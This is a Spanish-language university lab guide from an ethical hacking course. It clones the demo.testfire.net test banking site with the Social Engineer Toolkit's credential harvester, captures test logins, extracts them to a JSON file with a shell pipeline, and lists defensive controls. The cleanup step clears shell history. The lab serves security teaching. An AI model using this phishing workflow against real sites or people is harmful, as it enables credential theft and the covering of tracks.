 # Laboratorio Semana 11 - Ingeniería social mediante clonación y captura de credenciales en Kali Linux - (CY-203 Hackeo Ético)

---

## 1. Objetivos
1. Clonar el portal de demostración `http://demo.testfire.net/login.jsp` que simula la banca en línea de Altoro Mutual.  
2. Capturar credenciales de prueba y almacenarlas en `creds.json`.  
3. Generar un informe en `informe_final.json` y proponer controles defensivos.

---

## 2. Requisitos técnicos  
| Componente | Versión mínima | Verificación |
|------------|----------------|--------------|
| Kali Linux | 2025.2 | `cat /etc/os-release` |
| Python | 3.11 | `python3 --version` |
| Social Engineer Toolkit (SET) | 9.1 | `setoolkit --version` |
| Apache | 2.4 | `apache2 -v` |
| jq | 1.7 | `jq --version` |

---

## 3. Preparación del entorno
```bash
sudo apt update && sudo apt -y full-upgrade
sudo apt -y install apache2 jq
sudo apt install setoolkit
sudo systemctl enable --now apache2
mkdir -p ~/week11_phish && cd ~/week11_phish
```
---

## 4. Clonado del sitio con SET
```text
1. sudo setoolkit
2. 1 Social Engineering Attacks
3. 2 Website Attack Vectors
4. 3 Credential Harvester
5. 2 Site Cloner
6. URL objetivo: https://demo.testfire.net
7. IP de Kali cuando se solicite (consulta con: ip -br addr)
```
Los archivos clonados se almacenan usualmente en `/var/www/html`.

---

## 5. Ejecución del harvester
```bash
sudo systemctl stop apache2        # libera el puerto 80
# SET mostrará: Credential Harvester is running on port 80
# Desde la víctima visita http://IP_Kali/login.jsp y envía credenciales de prueba
```
---

## 6. Reporte de SET
```bash
sudo ls -l /root/.set/reports
# Ejemplo de archivo:
# /root/.set/reports/2025-07-21 17:40:52.546938.xml
```
---

## 7. Extracción de credenciales a JSON
```bash
sudo cp '/root/.set/reports/2025-07-21 17:40:52.546938.xml' ~/week11_phish/report.xml
sudo chown $USER:$USER ~/week11_phish/report.xml
cd ~/week11_phish

grep -Eo '(uid|username)=[^&]+&(passw|password)=[^<]+' report.xml | \
awk -F'[=&]' '{u=($1~/uid|username/)?$2:$4; p=($3~/passw|password/)?$4:$2; print "{\"user\":\""u"\",\"pass\":\""p"\"}"}' | \
jq -s '.' > creds.json
```
---

## 8. Informe final
Create `informe_final.json`:
```json
{
  "victims": 3,
  "site_cloned": "https://demo.testfire.net",
  "credentials_file": "creds.json",
  "attack_vector": "Correo de alerta de transacción",
  "timestamp": "2025-07-21T17:00:00-06:00"
}
```
---

## 9. Controles defensivos sugeridos
* Activar autenticación de dos factores en la banca en línea.  
* Configurar SPF, DKIM y DMARC para evitar suplantación de correos.  
* Sensibilizar a los usuarios sobre la verificación del dominio y el candado TLS.  
* Bloquear dominios recién registrados desde el gateway de correo.

---

## 10. Limpieza
```bash
sudo pkill -f setoolkit
sudo systemctl start apache2
sudo rm -rf /var/www/html/*
history -c
```

 - ---

**Profesor:** Esteban Mata Morales  
**Curso:** CY-203 Hackeo Ético  
**Universidad Fidélitas de Costa Rica**

